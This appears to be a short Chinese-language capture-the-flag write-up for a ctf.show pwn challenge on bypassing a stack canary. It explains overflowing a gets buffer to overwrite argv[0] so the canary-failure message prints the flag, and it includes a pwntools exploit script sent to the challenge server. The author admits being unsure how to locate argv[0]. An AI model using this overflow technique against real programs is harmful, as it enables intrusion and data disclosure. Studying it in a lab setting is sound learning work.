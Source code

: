 # 挑战简介
Bypass Canary 姿势3

# 思路
这一题思路很简单，flag就在栈上，你要利用get函数来栈溢出，覆盖_libc_argv[0]，再利用canary检查错误报错输出栈指针变量，从而输出flag  

但是难点在于不好找_libc_argv[0],尤其是答案并未细讲  

我就浅谈一下自己的见解  

首先你要找到栈的其实位置，gdb中通过``stack 300``300可更改为任意数，在其中寻找到argv[0]的位置

然后``distance 栈起始位置 argv[0]位置``就可以计算出偏移量  

但是我还是不会找argv[0]的位置，求解答  

```
from pwn import *
from LibcSearcher import *
context(arch = "amd64",os = 'linux',log_level = 'debug')

#context(arch = "i386",os = 'linux',log_level = 'debug')

#io = process("./pwn")

io = remote('pwn.challenge.ctf.show', 28204)

elf = ELF('D:\edge 下载\pwn')

buf_addr = 0x6020A0

io.recvuntil('Haha,It has reduced you a lot of difficulty!')



payload = cyclic(504) + p64(buf_addr)

io.sendline(payload)

io.interactive()
```
